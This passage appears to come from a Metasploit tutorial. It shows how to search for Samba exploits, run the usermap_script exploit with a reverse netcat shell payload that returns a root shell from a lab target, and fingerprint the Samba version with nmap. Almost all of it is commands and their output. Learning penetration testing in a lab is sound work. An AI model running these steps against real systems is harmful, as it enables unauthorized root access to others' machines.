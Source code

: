 *   Then, notice the message at the bottom of the search results about how we can interact with them by index:

    ```
    sf6 exploit(multi/samba/usermap_script) > search name:samba type:exploit platform:linux platform:unix description:3. description:4. -s rank -r

    Matching Modules
    ================

    #  Name                                     Disclosure Date  Rank       Check  Description
    -  ----                                     ---------------  ----       -----  -----------
    0  exploit/multi/samba/usermap_script       2007-05-14       excellent  No     Samba "username map script" Command Execution
    1  exploit/linux/samba/is_known_pipename    2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
    2  exploit/linux/samba/lsa_transnames_heap  2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
    3  exploit/linux/samba/chain_reply          2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)


    Interact with a module by name or index. For example info 3, use 3 or use exploit/linux/samba/chain_reply
    ```

    Let's try that, using `use 0` to start with the 0'th first (that's the `multi/samba/usermap_script` exploit), followed by `run`:

    ```
    msf6 > use 0
    [*] No payload configured, defaulting to cmd/unix/reverse_netcat
    msf6 exploit(multi/samba/usermap_script) > run

    [*] Started reverse TCP handler on 10.128.0.24:4444
    [*] Command shell session 1 opened (10.128.0.24:4444 -> 192.168.121.160:60134) at 2021-10-20 17:31:02 -0400

    id
    uid=0(root) gid=0(root)
    ```

    Worked on the first try! The others might also work too, but we'll stop here in this example.

    ---


*   The beginning of this section assumed that we didn't know the specific samba
    version number. This assumption was made to show some various search
    filtering techniques. However, in the case of this samba vulnerability, it
    is possible to get the specific samba version number by using nmap's `-A` flag:

        > nmap -A -p139,445 192.168.56.102
        [... snipped ...]
        139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
        445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
